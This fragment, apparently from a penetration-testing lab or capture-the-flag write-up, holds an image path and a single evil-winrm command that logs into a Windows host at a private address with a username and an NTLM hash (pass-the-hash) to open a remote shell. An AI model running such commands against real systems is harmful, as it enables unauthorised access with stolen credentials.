 
```shell-session
evil-winrm -i 10.200.99.201 -u t1_toby.beck -H 533f1bd576caa912bdb9da284bbc60fe 
```